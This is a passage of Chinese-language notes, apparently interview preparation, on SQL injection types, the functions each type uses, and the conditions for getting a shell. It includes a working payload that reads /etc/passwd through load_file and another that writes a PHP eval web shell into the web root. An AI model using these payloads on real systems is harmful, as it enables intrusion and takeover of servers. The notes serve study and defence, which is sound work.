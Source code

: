 4.经过提权等步骤，服务器最高权限被攻击者获取。

#### sql注入的类型和常见函数？

##### 基于错误的sql注入

攻击者通过在输入中插入错误的sql代码，导致数据库返回错误，可以在报错信息中获取想要的数据。

常见函数：exp()、updataxml()、extractvalue()



##### union联合查询注入

攻击者使用union语句将恶意查询结果与合法查询结果结合起来，获取数据库中敏感信息。

常见函数：concat()、concat_ws()、group_concat



##### 布尔盲注

攻击者通过构造条件语句，根据应用程序返回的两种不同响应，逐步推断出数据库中的信息。

常见函数：length()、substr()、mid()、rigth()、left()、ascii()、ord()



##### 时间盲注

攻击者通过构造延时函数，根据应用程序的响应的延迟时间，推断出数据库中的信息。

常见函数：sleep()、if()



##### 堆叠注入

攻击者通过在输入中用分号  ;  加入多个查询语句，使数据库执行多个独立的SQL语句，从而实现复杂的攻击。



##### 读写文件函数

load_file()读取文件

```sql
union select 1,2,load_file('/etc/passwd')
```

into outfile、into dumpfile 写文件

```sql
union select 1,2,"<?php @eval($_POST[cmd]);?>" into dumpfile '/var/www/html/a.php' 
```

#### sql注入getshell的条件？

1.需要知道网站的绝对路径

2.secure_file_priv的值为空

3.需要足够的权限

4.GPC关闭可使用单引号
